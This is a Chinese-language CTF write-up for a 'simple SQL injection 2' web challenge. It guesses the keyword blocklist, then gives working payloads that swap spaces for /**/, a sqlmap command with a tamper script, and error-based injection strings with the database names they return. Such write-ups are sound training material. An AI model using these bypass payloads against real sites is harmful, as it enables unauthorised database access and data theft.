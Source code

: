 简单sql注入2

## 题目

> http://ctf5.shiyanbar.com/web/index_2.php
>
> flag
>
> 到底过滤了什么东西？

## 流程图

## 解题步骤

#### 参考文章

##### 0x1 直接猜测表名和字段名

> 首先输入1，发现有将数据库的查询结果显示出来
>
> 输入单引号，发现错误，这时候可以猜测后台查询语句:select name from table where id='xxx';
>
> 输入'='，查询语句变成这样:select name from table where id=''='';     根据从左到右的比较可以得到where字句后面的值为1，而查询也爆出来3个结果
>
> 接下来继续测试，输入'='select，或者'='or,或者'='union等都没有报错，都有三条结果显示出来
>
> 而若是输入' or 1 #或者是' union或者是' or select #都显示侦测到SQL注入了，可以猜想后台应该是应该是这样处理的
>
> （代码大概是这样的，对不对我也不知道）
>
> ```php
> str=_SERVER['QUERY_STRING'];
> 
> str=urldecode(str);
> 
> query_list=explode(' ',str);
> 
> //这个过滤数组应该还有挺多，我就不写了
> 
> $filter_array={'or','#','union','select','where','and'};
> 
> for_each (query_list as value) {
> 
>     if (in_array(value,filter_array)) {
> 
>         echo "SQLI:detected";
> 
>         exit(0);
> 
>     }
> 
> }
> ```
>
> 也就是说，空格和敏感字符的组合是会被查出来的，而在SQL注入中，可以拿来当做间隔用的还有/**/
>
> 于是可以构造以下语句
>
> '/**/union/**/select/**/flag/**/from/**/flag#
>
> 结果可以得到
>
> ```
> ID: '/**/union/**/select/**/flag/**/from/**/flag#
> name: flag{Yxxxxxxxxxxxxxd}
> ```
>
> ```
> 最后，问题来了,怎么知道后台表是flag,字段名是flag？
> ```
>
> ```
> 至于会问这个问题的同学，我猜大概是前面的题没做，做第一道题的时候看别人的解析我也是一脸蒙蔽
> ```
>
> ```
> 也是有这个问题。当然这个表名和字段名可以通过盲注给爆出来，有兴趣的话可以写一个python脚本去
> ```
>
> ```
> 爆破，具体代码我就不贴了
> 最后，新人第一次发帖，打脸请轻打.....
> ```
>
>  

##### 0x2 正常流程读取

> http://www.shiyanbar.com/ctf/writeup/4750

#### 步骤

##### 0x1 直接猜测法

1. 在文本框输入1，提交，链接变成id=1

2. 在文件框输入1'，提交，报错，判断存在注入

3. 在文本框输入`test`，提交，链接变成id=test，未返回错误，说明该注入类型为字符型注入

4. 在简单sql注入1中使用的payload为

   ```mysql
   1 '+unionunion +selectselect +flag+fromfrom +flag+wherewhere+'t'='t
   ```

   在这题中空格已经被过滤了，所以需要将空格替换成/**/，并不使用双重注入

   ```mysql
   1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'t'='t
   ```

   由此得到答案

##### 0x2 标准注入 

1. 当采用标准注入时，发现database()被检测出了sql注入

```mysql
1' union/**/select/**/database()'
```

没有想到怎么才能避过检测，于是想到用sqlmap跑一跑

补: 找到了可以绕过`()`的新方法：

```mysql
1'union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1
```



2. 使用sqlmap

   ```shell
   sqlmap.py -u "http://ctf5.shiyanbar.com/web/index_2.php?id=1" --dbs --tamper "space2comment.py" --level 2 -v 3
   ```

   参数说明：

   - --dbs 查找所有数据库
   - "space2comment.py" 将空格转换成为/**/
   - -v 3 显示payload

3. 获取数据库数量的payload

   ```mysql
   1'/**/AND/**/(SELECT/**/8427/**/FROM(SELECT/**/COUNT(*),CONCAT(0x7162746671,(SELECT/**/IFNULL(CAST(COUNT(schema_name)/**/AS/**/CHAR),0x20)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA),0x717a717071,FLOOR(RAND(0)*2))x/**/FROM/**/INFORMATION_SCHEMA.CHARACTER_SETS/**/GROUP/**/BY/**/x)a)/**/AND/**/'IUDH'='IUDH
   ```

   返回值：

   `Duplicate entry 'qbtfq3qzqpq1' for key 'group_key'`

   注意其中的值`3`

4. 依次返回三个表的payload

   ```mysql
   1'/**/AND/**/(SELECT/**/8165/**/FROM(SELECT/**/COUNT(*),CONCAT(0x7162746671,(SELECT/**/MID((IFNULL(CAST(schema_name/**/AS/**/CHAR),0x20)),1,50)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA/**/LIMIT/**/0,1),0x717a717071,FLOOR(RAND(0)*2))x/**/FROM/**/INFORMATION_SCHEMA.CHARACTER_SETS/**/GROUP/**/BY/**/x)a)/**/AND/**/'xprA'='xprA
   [16:35:47] [INFO] retrieved: information_schema
   ```

   返回结果：

   ### `Duplicate entry 'qbtfqinformation_schemaqzqpq1' for key 'group_key'`

   ```mysql
   [16:35:47] [PAYLOAD] 1'/**/AND/**/(SELECT/**/3904/**/FROM(SELECT/**/COUNT(*),CONCAT(0x7162746671,(SELECT/**/MID((IFNULL(CAST(schema_name/**/AS/**/CHAR),0x20)),1,50)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA/**/LIMIT/**/1,1),0x717a717071,FLOOR(RAND(0)*2))x/**/FROM/**/INFORMATION_SCHEMA.CHARACTER_SETS/**/GROUP/**/BY/**/x)a)/**/AND/**/'YvjH'='YvjH
   [16:35:48] [INFO] retrieved: test
   ```

   ```mysql
   [16:35:48] [PAYLOAD] 1'/**/AND/**/(SELECT/**/2380/**/FROM(SELECT/**/COUNT(*),CONCAT(0x7162746671,(SELECT/**/MID((IFNULL(CAST(schema_name/**/AS/**/CHAR),0x20)),1,50)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA/**/LIMIT/**/2,1),0x717a717071,FLOOR(RAND(0)*2))x/**/FROM/**/INFORMATION_SCHEMA.CHARACTER_SETS/**/GROUP/**/BY/**/x)a)/**/AND/**/'huJK'='huJK
   [16:35:49] [INFO] retrieved: web1
   ```

   以后来研究一下，sqlmap是如何在避过`database()`检测的情况下，实现查询数据库名的

   

## 解答思路

1. 判断是否存在注入点
2. 判断注入类型
3. 判断后台的过滤机制
   - 关键字被过滤
     - 重复关键词（例如selectselect），不成功
   - 空格被过滤
     - 使用双重空格（使用+号替代也需要重复两次），不成功
   - 使用/**/替换空格，测试成功
   - 在有错误提示的情况下，可以有针对性的修改注入语句，如果没有错误提示，则需要遍历测试可能的绕过方式
4. 需要研究sqlmap的注入流程


## 漏洞挖掘思路

- 无

## 自动化解析

- TODO

- 判断题目特征：`web` `php` `md5` 
- 设定题目难度等级`level`为simple
- 提交相应符合要求的字符串

